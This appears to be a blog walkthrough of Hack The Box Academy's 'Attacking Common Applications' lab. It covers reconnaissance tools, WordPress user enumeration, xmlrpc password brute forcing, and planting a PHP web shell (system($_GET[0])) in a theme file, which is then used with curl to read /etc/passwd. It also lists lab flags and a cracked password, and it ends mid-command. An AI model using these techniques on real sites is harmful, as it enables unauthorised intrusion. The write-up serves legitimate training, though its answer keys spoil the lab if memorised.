Welcome to **Part 11** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **Attacking Common Applications** (Tier II • Medium • Offensive). We break down the underlying mechanics of exploiting ubiquitous enterprise applications including Apache Tomcat, Jenkins, Splunk, Drupal, Joomla, and WordPress, dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><a href="/posts/htb-academy-part-10-attacking-common-services/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 10: Attacking Common Services (SMB, SQL, RDP, SSH)</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 11 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-12-active-directory-enumeration-and-attacks/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 12: Active Directory Enumeration & Domain Attacks</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `Attacking Common Applications` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/113](https://academy.hackthebox.com/module/113) |
| **Curriculum Tier & Difficulty** | `Tier II` • `Medium` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 11 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **Application Profiling**: Identifies deployed web application packages, plugins, themes, and framework versions through fingerprinting.
* **Tomcat Manager Exploitation**: Authenticates with default or brute-forced credentials and uploads malicious WAR packages to achieve RCE.
* **Jenkins Script Console Abuse**: Leverages administrative Groovy script consoles to execute OS commands under the Jenkins daemon context.
* **CMS Exploitation**: Weaponizes known CVEs in Drupal (Drupalgeddon), WordPress, and Joomla to achieve arbitrary file uploads.
* **Credential Harvesting**: Dissects application configuration files, database connections, and encrypted keystores to uncover enterprise credentials.

## Executive Summary & Assessment Scope

Modern organizations deploy a diverse array of off-the-shelf and open-source applications to manage builds, monitor infrastructure, and deliver web content. These applications often possess extensive administrative capabilities and run with elevated system privileges.

In this module, we examine offensive tradecraft targeting common enterprise applications: Apache Tomcat, Jenkins automation servers, Splunk enterprise monitors, and content management systems. We exploit management interfaces, deploy malicious packages, execute server-side code, and capture all assessment flags.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### Attacking Common Applications

> **Lab Question (Page 1)**: Use what you've learned from this section to generate a report with EyeWitness. What is the name of the .db file EyeWitness creates in the inlanefreight_eyewitness folder? (Format: filename.db)
>
> **Flag / Answer**: `ew.db`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, confirm that EyeWitness in installed on your machine. if not –
install with the command: "sudo apt install eyewitness".
When EyeWitness is installed – run the command:
eyewitness --web -x web_discovery.xml -d
inlanefreight_eyewitness
the input xml file we provided is non-existent for the moment so as expected,
we got:


*_Figure 1.1 — Lab execution and output verification (Page 1)_*


### folder

> **Lab Question (Page 2)**: What does the header on the title page say when opening the aquatone_report.html page with a web browser? (Format: 3 words, case sensitive)
>
> **Flag / Answer**: `Pages by Similarity`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first, we install aquatone with the command
wget
https://github.com/michenriksen/aquatone/releases/download/v
1.7.0/aquatone_linux_amd64_1.7.0.zip
then unzip it with the command
```bash
unzip aquatone_linux_amd64_1.7.0.zip
```
after that when running 'ls' we should have a file called 'aquatone':


*_Figure 2.1 — Lab execution and output verification (Page 2)_*


*_Figure 2.2 — Lab execution and output verification (Page 2)_*


*_Figure 2.3 — Lab execution and output verification (Page 2)_*


### For that we will run the following nmap command

#### Technical Methodology & Exploit Execution:

```bash
sudo nmap -p 80,443,8000,8080,8180,8888,10000 --open -oA
```
web_discovery 127.0.0.1
this will scan the localhost and output the results to a file called
web_discovery.xml.

now, before we run aquatone, we need to install chrome (it is not in the formal
guide, but for me running aquatone without it resulted with error).
We will do it with the following commands (for Ubuntu/Debian):
```bash
wget https://dl.google.com/linux/direct/google-chrome-
```
stable_current_amd64.deb
```bash
sudo dpkg -i google-chrome-stable_current_amd64.deb
sudo apt-get install -f
```
after that it should do well.
Next, we run the command:
```bash
cat web_discovery.xml | ./aquatone -nmap
```
to run aquatone on the web_discovery.xml (our nmap output):

At the end of the running, we get the message:


*_Figure 3.1 — Lab execution and output verification (Page 3)_*


*_Figure 3.2 — Lab execution and output verification (Page 3)_*


*_Figure 3.3 — Lab execution and output verification (Page 3)_*


### So lets check it

#### Technical Methodology & Exploit Execution:

realpath aquatone_report.html


copy the full path on the URL and get the result:


*_Figure 4.1 — Lab execution and output verification (Page 4)_*


*_Figure 4.2 — Lab execution and output verification (Page 4)_*


*_Figure 4.3 — Lab execution and output verification (Page 4)_*


### Content Management Systems (CMS)

> **Lab Question (Page 5)**: Enumerate the host and find a flag.txt flag in an accessible directory.
>
> **Flag / Answer**: `0ptions_ind3xeS_ftw!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first, we will do the 'initial configuration' on vhost
'blog.inlanefreight.local'.
When it's done, we will have to run enumeration on the website files.
For that purpose, we will use a tool called 'dirbuster'.
we install 'dirbuster' directly from GitHub repository with the command:
git clone
https://gitlab.com/kalilinux/packages/dirbuster.git
after 'dirbuster' is install – we will have the installed directory in our home
directory:

We will 'cd' our way inside, and run the .sh file:

A graphic interface should open:


*_Figure 5.1 — Lab execution and output verification (Page 5)_*


*_Figure 5.2 — Lab execution and output verification (Page 5)_*


*_Figure 5.3 — Lab execution and output verification (Page 5)_*


### Then – we Start the run

On target URL, we set the vhost address as the target (with http:// of course),
On word list we selected an arbitrary medium sized wordlist installed with the
'dirbuster', and we added txt extension (albeit for me it also worked without it).
Then – we Start the run:

After several moments – the results list with possible paths start to fill in: it will
be easier to examine it via Tree view:


On tree view, we will have to open several directory until we reach 'flag.txt' file:

(the lack of search option in 'dirbuster' is annoying here, for future purpose a
new tool might be considered to use instead of 'dirbuster'..)
Once we get to flag.txt, we right click it and select 'Open In Browser':

The page will be opened in the browser, displaying the result:


*_Figure 6.1 — Lab execution and output verification (Page 6)_*


*_Figure 6.2 — Lab execution and output verification (Page 6)_*


*_Figure 6.3 — Lab execution and output verification (Page 6)_*


*_Figure 6.4 — Lab execution and output verification (Page 6)_*


> **Lab Question (Page 7)**: Perform manual enumeration to discover another installed plugin. Submit the plugin name as the answer (3 words).
>
> **Flag / Answer**: `wp sitemap page`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

method 1: on the website itself – go to "learn more":

Then you will see 'Powered by "WP Sitemap Page", hovering it will reveal
'/plugins/wp-sitemap-page' path, determining it is a plugin.

Method 2:
Run
```bash
curl -s http://blog.inlanefreight.local/?p=1 | grep plugin
```
the desired plugin would be displayed along with other plugins.


*_Figure 7.1 — Lab execution and output verification (Page 7)_*


*_Figure 7.2 — Lab execution and output verification (Page 7)_*


*_Figure 7.3 — Lab execution and output verification (Page 7)_*


*_Figure 7.4 — Lab execution and output verification (Page 7)_*


### during the 'dirbuster' execution (tree view)

> **Lab Question (Page 8)**: Find the version number of this plugin. (i.e., 4.5.2)
>
> **Flag / Answer**: `1.6.4`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

after the wp-sitemap-page was found, we will go to
'http://blog.inlanefreight.local/wp-content/plugins/wp-sitemap-
page/readme.txt' path to examine to corsponding readme. The first part of the
path (/wp-content/plugins/) of course should be familiar as it was shown
during the 'dirbuster' execution (tree view):

When we get to the readme, we will look for the 'Stable tag' field:


*_Figure 8.1 — Lab execution and output verification (Page 8)_*


*_Figure 8.2 — Lab execution and output verification (Page 8)_*


### Attacking WordPress

> **Lab Question (Page 9)**: Perform user enumeration against http://blog.inlanefreight.local. Aside from admin, what is the other user present?
>
> **Flag / Answer**: `doug`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will use the tool wpscan for this purpose.
First – we need an API token: that can be obtain from 'https://wpscan.com/'.
All we have to do is register, confirm email, login and claim the provided token
for our made user.
Then – we will use the command:
```bash
sudo wpscan --url http://blog.inlanefreight.local --
```
enumerate --api-token <api-token-value>
it is recommended to redirect the output report to some output file as we have
limited use of api-calls:
```bash
sudo wpscan --url http://blog.inlanefreight.local --
```
enumerate --api-token <api-token-value> > output_file

when the scan is complete, we will search for the user sections within the
report:

Here we can find 2 users: admin and doug.


*_Figure 9.1 — Lab execution and output verification (Page 9)_*


### daug password, we will use the command

> **Lab Question (Page 10)**: Perform a login bruteforcing attack against the discovered user. Submit the user's password as the answer.
>
> **Flag / Answer**: `jessica1`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will use the wpscan tool from previous question to bruteforce
daug password, we will use the command:
```bash
sudo wpscan --password-attack xmlrpc -t 20 -U doug -P
```
/usr/share/wordlists/rockyou.txt --url
http://blog.inlanefreight.local > output_file2
where rockyou.txt is the password list file we use (stored in pwnbox machine),
xmlrpc is the attack type, -t is the amount of threads, -U is the target user, -P is
the path to the password list file, --url is the target url of the WordPress site.

Question: Using the methods shown in this section, find another system user
whose login shell is set to /bin/bash.
Answer: webadmin
Method:  we shall use the recently obtained Doug credentials, login to Doug
using the obtained password from last question, (then the website will ask if
the email if correct, so we can confirm it and the website will process with the
login). after that we going to reach Doug dashboard:

On the left side there is a menu, click on 'Appearance' and then 'Theme Editor':


*_Figure 10.1 — Lab execution and output verification (Page 10)_*


*_Figure 10.2 — Lab execution and output verification (Page 10)_*


### And on the page we insert the command

#### Technical Methodology & Exploit Execution:

system($_GET[0]);
And then we click "Update file":

The command above allows us to run shell on the server side with the
parameter 0. It can be done either with 'curl' command, or the web interface,
in this guide we shall cover both methods:


*_Figure 11.1 — Lab execution and output verification (Page 11)_*


*_Figure 11.2 — Lab execution and output verification (Page 11)_*


*_Figure 11.3 — Lab execution and output verification (Page 11)_*


### web interface

web interface:
we enter to the browser this url:
http://blog.inlanefreight.local/wp-
content/themes/twentynineteen/404.php?0=id


Of course, the 'we-content/themes' is the path our themes are stored, and
404.php is within the 'twentynineteen' theme.
The ?0=id is our parameter, where '0' is the value we injected to the server side
as the corrupted parameter, and 'id' is the test command value.
In the picture above we see it works, but 'id' is not the command we need to
get the other user with /bin/bash shell. Now, we need another command,
which would be:
```bash
cat /etc/passwd | grep bash
```
now for the url, with the encoding of space (' ') to ascii ('%20') (space value is
hexadecimal 20 in ascii):
http://blog.inlanefreight.local/wp-
content/themes/twentynineteen/404.php?0=cat%20/etc/passwd%20
|%20grep%20bash
(Note, it worked for me even without the URL encoding but entering it plainly
as:
http://blog.inlanefreight.local/wp-
content/themes/twentynineteen/404.php?0=cat /etc/passwd |
```bash
grep bash
```
, but the encoding is always a good practice)
We get this:

We have 3 users here which are displayed: root, ubuntu, webadmin.
The answer is the last option.


*_Figure 12.1 — Lab execution and output verification (Page 12)_*


*_Figure 12.2 — Lab execution and output verification (Page 12)_*


### curl

#### Technical Methodology & Exploit Execution:

```bash
curl "http://blog.inlanefreight.local/wp-
```
content/themes/twentynineteen/404.php?0=cat%20/etc/passwd%20
|%20grep%20bash"


Providing the same answer the previous method.
Bonus: I tried to insert a second shell within the theme 'Twenty Twenty-One'
within the page 'Theme Functions' for the parameter 'testme':

and I tested it with curl:

It worked.


*_Figure 13.1 — Lab execution and output verification (Page 13)_*


*_Figure 13.2 — Lab execution and output verification (Page 13)_*


*_Figure 13.3 — Lab execution and output verification (Page 13)_*


### so we know where we are with the command

> **Lab Question (Page 14)**: Following the steps in this section, obtain code execution on the host and submit the contents of the flag.txt file in the webroot.
>
> **Flag / Answer**: `l00k_ma_unAuth_rc3!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

method 1: we use the exploit from last question: first, we run 'pwd'
so we know where we are with the command:
```bash
curl "http://blog.inlanefreight.local/wp-
```
content/themes/twentynineteen/404.php?0=pwd"


It tells us we are in the theme 'twentynineteen' directory, and the main
directory of this website is 'blog.inlanefreight.local' directory – so we search
there, using 'ls' command:
```bash
curl "http://blog.inlanefreight.local/wp-
```
content/themes/twentynineteen/404.php?0=ls%20/var/www/blog.i
nlanefreight.local"


We see an interesting looking flag file, lets confirm its readable for anyone with
'ls -l flag...txt' command:
```bash
